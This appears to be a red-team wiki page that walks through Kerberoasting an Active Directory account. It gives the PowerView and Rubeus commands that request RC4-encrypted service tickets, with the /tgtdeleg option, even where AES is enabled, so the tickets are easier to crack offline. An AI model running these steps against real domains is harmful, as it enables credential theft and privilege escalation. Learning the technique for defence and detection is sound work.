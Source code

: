 # Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted (instead of AES) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code title="attacker@victim" %}
```
Get-NetUser -SPN sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-37-30.png)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-39-53.png)

If the user is now set to support AES encryption:

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-40-51.png)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-58-37.png)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket (if RC4 is not disabled in the environment, which does not seem to be common yet):

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 (encryption type 0x17/23) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](../../.gitbook/assets/screenshot-from-2019-05-06-16-03-06.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}
